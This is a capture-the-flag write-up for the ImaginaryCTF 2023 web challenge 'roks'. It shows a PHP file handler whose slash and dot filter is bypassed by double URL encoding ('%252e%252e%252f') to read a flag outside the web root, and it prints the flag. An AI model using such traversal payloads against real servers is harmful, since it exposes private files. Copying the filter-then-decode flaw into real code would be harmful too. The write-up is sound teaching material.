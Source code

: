 ```yaml
---
title: 2023 ImaginaryCTF - roks
author: thanguyen165
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Web Exploitation, Path traversal]
---
```


* Points: 100

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

### Attached

[roks.zip](https://imaginaryctf.org/r/0Sm4V#roks.zip)

## Analyzation

Check the docker file first
```docker
FROM php:8-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
COPY file.php /var/www/html/
COPY styles.css /var/www/html/
COPY stopHacking.png /var/www/html/

RUN mkdir /var/www/html/images
COPY images/* /var/www/html/images
COPY flag.png /

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```

So the flag is at root directory, and the site is at ```/var/www/html/```

Check the ```index.php```

```php
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

then ```file.php```

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

So we must do directory traversal, but we cannot use dot "." or slash "/".

Also, ascii code, like

```
%2e%2e%2f
```

will not work due to
```php
$filename = urldecode($_GET["file"]);
```

## Solution

Encode one time fails, so do it twice

```
%252e%252e%252f
```

The flag is
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```